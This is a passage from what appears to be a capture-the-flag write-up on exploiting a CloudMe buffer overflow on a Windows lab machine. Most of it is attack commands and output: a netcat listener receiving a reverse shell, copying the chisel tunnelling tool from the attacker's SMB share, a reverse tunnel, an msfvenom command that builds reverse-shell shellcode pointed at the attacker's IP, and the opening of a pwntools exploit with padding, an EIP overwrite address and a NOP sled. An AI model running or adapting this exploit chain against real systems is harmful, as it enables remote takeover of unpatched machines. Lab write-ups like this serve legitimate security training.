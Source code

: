 #### testing exploit locally 

I start a nc listener and run the exploit successfully receiving a connection 

```bash
$ python exp.py
[+] Opening connection to 127.0.0.1 on port 8888: Done
[*] Closed connection to 127.0.0.1 port 8888
[+] Payload sent
```

```bash
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.146] 56576
Microsoft Windows [Versi�n 10.0.19045.4529]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Users\user\Desktop\CloudMe\CloudMe>
```

## shell as administrator

I will do the same procedure, first I will copy chisel in the target machine 

```shell
C:\Windows\Temp\x>copy \\10.10.14.13\smbFolder\chisel_1.7.3_windows_amd64 . 
copy \\10.10.14.13\smbFolder\chisel_1.7.3_windows_amd64 . 
        1 file(s) copied.
```

I close the previous chisel client connection I had from the windows_debug machine and connect the target machine to my server

```shell
C:\Windows\Temp\x>chisel_1.7.3_windows_amd64 client 10.10.14.13:1234 R:8888:127.0.0.1:8888 
chisel_1.7.3_windows_amd64 client 10.10.14.13:1234 R:8888:127.0.0.1:8888 
2024/08/20 23:09:44 client: Connecting to ws://10.10.14.13:1234
2024/08/20 23:09:45 client: Connected (Latency 107.6835ms)
```

I generate a new shellcode with my updated ip address of the tun0 interface

```
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -b "\x00\x0a\x0d\xff" -f py -v shellcode EXITFUNC=thread
```

final exploit

```python
#!/usr/bin/env python3

from pwn import *

context(arch="i386",os="linux")

def exploit():
    host = "127.0.0.1" #change this
    port = 8888 #change this
    
    buffer = b"\x55" * 1052
#    with open('./pattern','r') as file:
#        buffer=file.read()
    #eip
    eip = p32(0x0051e583)
    
    #nops
    nops = b"\x90" * 32

```